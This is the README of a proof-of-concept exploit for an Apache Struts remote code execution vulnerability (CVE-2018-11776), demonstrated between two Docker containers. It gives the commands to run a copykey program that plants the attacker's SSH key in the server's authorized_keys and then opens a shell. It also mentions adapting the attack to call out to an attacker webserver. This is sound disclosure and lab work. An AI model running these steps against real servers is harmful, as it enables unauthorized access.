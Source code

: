 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

Because we have Struts running in docker with no graphics, it isn't convenient to pop a calculator. So, instead, we will use the vulnerability to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify this PoC to do that.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.25.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -i -t struts-server
```

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, build `copykey.c` and use it to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
gcc copykey.c -o copykey
./copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!
